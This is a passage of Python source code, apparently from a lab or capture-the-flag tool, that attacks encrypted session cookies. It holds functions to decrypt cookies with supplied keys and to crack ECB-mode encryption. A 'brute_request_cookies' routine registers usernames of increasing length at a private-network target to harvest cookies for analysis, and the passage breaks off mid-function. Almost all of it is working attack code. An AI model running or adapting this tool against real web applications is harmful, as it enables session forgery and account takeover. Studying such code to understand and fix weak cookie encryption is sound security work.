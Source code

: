 ```
		cookie_vals = delimited_cookies.split(":")
		b64key = cookie_vals[0]
		cookie_string = cookie_vals[1]
		print ("[*] Decrypting cookie {} with key {}".format(cookie_string, b64key))
		new_cookie = Cookie(cookie_string)
		new_cookie.add_encryption_key_from_b64(b64key)
		cookie_jar.append(new_cookie)
		
def what_cookies():
	for cookie in cookie_jar:
		cookie.show_cookie()

def crack_ecbs():
	for cookie in cookie_jar:
		cookie.crack_ecb()

def decrypt_with_key():
	for cookie in cookie_jar:
		cookie.decrypt_cookie()

def brute_request_cookies(url_cookie_string):
	url = url_cookie_string.split("^^^")[0]
	cookie_name = url_cookie_string.split("^^^")[1]
	name_text = ""
	for x in range(1, 41):
		if x <= 8:
			name_text += "b"
		else:
			name_text += "b"
		payload = {
			"username":name_text, 
			"password":"password",
			"password_again":"password"
		}
		headers = {
			"Host": "192.168.56.101",
			"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:51.0) Gecko/20100101 Firefox/51.0",
			"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
			"Accept-Language": "en-US,en;q=0.5",
			"Referer": "http://192.168.56.101/index.php",
			"Connection": "close",
			"Content-Type": "application/x-www-form-urlencoded",
			"Content-Length": "{}".format(51+len(name_text))
		}
		s = requests.Session()
		req = requests.Request('POST', url,headers=headers)
		prepped = req.prepare()
		prepped.body = "username={}&password={}&password_again={}".format(name_text,"password","password")
		
		r = s.send(prepped)

		if r.status_code == 200:
			#print ("session: {}".format(s.cookies.get_dict()))
			if "duplicate" in r.text.lower():
				print ("[-] Username {} already exists".format(name_text))
			else:
				if len(url_cookie_string.split("^^^")) == 3:
					b64key = url_cookie_string.split("^^^")[2]
					raw_cookie = s.cookies.get_dict()[cookie_name]
					cookie_to_process = Cookie(raw_cookie)
					cookie_to_process.add_encryption_key_from_b64(b64key)
```
